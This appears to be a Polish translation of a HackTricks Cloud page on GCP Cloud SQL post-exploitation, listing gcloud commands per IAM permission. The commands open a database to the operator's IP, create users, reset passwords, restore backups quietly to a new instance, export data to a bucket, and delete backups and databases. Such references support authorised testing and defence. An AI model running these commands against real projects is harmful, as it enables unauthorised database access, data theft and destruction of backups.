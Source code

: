 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Aby uzyskać więcej informacji na temat Cloud SQL, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Aby połączyć się z bazami danych, **wystarczy mieć dostęp do portu bazy danych** i znać **nazwa użytkownika** oraz **hasło**, nie ma żadnych wymagań dotyczących IAM. Zatem łatwym sposobem na uzyskanie dostępu, zakładając, że baza danych ma publiczny adres IP, jest zaktualizowanie dozwolonych sieci i **zezwolenie na dostęp z własnego adresu IP**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Możliwe jest również użycie **`--no-backup`** do **zakłócenia kopii zapasowych** bazy danych.

Ponieważ to są wymagania, nie jestem do końca pewien, jakie są uprawnienia **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Jeśli wiesz, wyślij PR!

### `cloudsql.users.list`

Uzyskaj **listę wszystkich użytkowników** bazy danych:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

To uprawnienie pozwala na **utworzenie nowego użytkownika wewnątrz** bazy danych:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

To uprawnienie pozwala na **aktualizację użytkownika wewnątrz** bazy danych. Na przykład, możesz zmienić jego hasło:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Kopie zapasowe mogą zawierać **stare wrażliwe informacje**, więc warto je sprawdzić.\
**Przywróć kopię zapasową** w bazie danych:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Aby zrobić to w bardziej ukryty sposób, zaleca się utworzenie nowej instancji SQL i odzyskanie danych tam zamiast w aktualnie działających bazach danych.

### `cloudsql.backupRuns.delete`

To uprawnienie pozwala na usuwanie kopii zapasowych:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksportuj bazę danych** do Cloud Storage Bucket, aby mieć do niej dostęp stamtąd:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importuj bazę danych** (nadpisz) z Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Usuń bazę danych z instancji db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
